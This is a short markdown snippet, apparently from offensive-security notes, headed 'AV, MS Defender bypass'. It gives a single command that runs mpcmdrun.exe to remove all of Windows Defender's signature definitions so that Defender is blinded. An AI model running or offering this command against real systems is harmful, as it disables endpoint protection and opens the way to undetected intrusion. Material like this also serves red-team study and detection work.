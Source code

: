 # AV, MS Defender bypass

## mpcmdrun - remove definitions, blind Defender
```
cd C:\PROGRAM~1\Windows Defender
.\mpcmdrun.exe -RemoveDefinitions -All
```
